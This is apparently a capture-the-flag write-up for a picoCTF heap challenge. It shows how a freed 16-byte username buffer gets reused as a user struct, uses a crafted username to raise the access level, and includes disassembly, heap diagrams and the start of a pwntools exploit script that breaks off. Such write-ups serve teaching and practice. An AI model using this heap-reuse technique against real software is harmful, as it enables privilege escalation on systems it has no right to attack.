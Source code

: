 The executable is 64-bit, and therefore the `user` struct is 16 bytes. This can also be confirmed from the disassembly:
```assembly
0x00400c07      bf10000000     mov edi, 0x10               ; 16
0x00400c0c      e83ffcffff     call sym.imp.malloc         ;  void *malloc(size_t size)
```

Now, if we create a user with a 16-byte-long username, logout, and create another user, most chances are that the heap manager will reallocate the username buffer for the new user struct - since they both have the same size.
The chances are even higher since the old user struct (also of size 16) doesn't get freed, as seen earlier.

So if we create a user with a specially crafted username, the content of the username might be reused as a user struct later on.

```
1. Allocate user with name "aaaaaaaa\x05\x00\x00\x00\x00\x00\x00\x00"
          struct user                  username
          +----------+                 +----------+
username: | pointer  |---------------->| aaaaaaaa |
          +----------+                 +----------+
   level: | 0x0      |                 + 0x5      |
          +----------+                 +----------+

2. Free user
          struct user - memory leak    Free memory
          +----------+                 +----------+
username: | pointer  | --------------->| aaaaaaaa |
          +----------+                 +----------+
   level: | 0x0      |                 + 0x5      |
          +----------+                 +----------+

3. Allocate user with name "A"
          struct user - memory leak    New user                    New name
          +----------+                 +----------+                +----------+
username: | pointer  | --->  username: | aaaaaaaa |--------------->| A        |
          +----------+                 +----------+                +----------+
   level: | 0x0      |          level: + 0x5      |
          +----------+                 +----------+
```

The original user struct still points to the original name, but that doesn't really matter anymore.

Another important note is that the program uses `fgets` to read the input, so we can send `'\0'` NULL characters and they will be read into the input buffer. It also helps that the program decides where the user argument has ended by searching for a linefeed (`strtok(&buf[6], "\n")`) and not for a NULL terminator.

The script:
```python
from pwn import *

REQUESTED_ACCESS_LEVEL = 5

r = remote("2018shell3.picoctf.com", 29508)

def send_command(command):
    r.recvuntil("> ")
    r.sendline(command)
    return r.recvline()

def show():
    return send_command("show")

def login(name):
    log.info("Logging in as {} ({})".format(name, enhex(name)))
```